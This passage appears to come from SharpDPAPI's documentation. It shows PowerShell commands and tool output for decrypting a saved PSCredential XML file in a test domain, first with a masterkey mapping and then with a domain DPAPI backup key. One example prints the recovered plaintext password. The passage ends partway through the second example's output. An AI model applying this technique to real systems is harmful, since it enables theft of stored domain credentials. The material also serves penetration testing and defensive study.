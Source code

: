 
Using domain {GUID}:SHA1 masterkey mappings:

    PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    PS C:\Temp> New-Object System.Management.Automation.PSCredential('TESTLAB\user', $SecPassword) | Export-CLIXml C:\Temp\cred.xml
    PS C:\Temp> .\SharpDPAPI.exe ps /target:C:\Temp\cred.xml "{0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3"

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe PSCredential .xml

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        CredFile         : C:\Temp\cred.xml
        Accessed         : 7/25/2019 12:04:12 PM
        Modified         : 7/25/2019 12:04:12 PM
        User Name        : TESTLAB\user
        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Password         : Password123!


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    PS C:\Temp> New-Object System.Management.Automation.PSCredential('TESTLAB\user', $SecPassword) | Export-CLIXml C:\Temp\cred.xml
    PS C:\Temp> .\SharpDPAPI.exe ps /target:C:\Temp\cred.xml /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe PSCredential .xml

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3
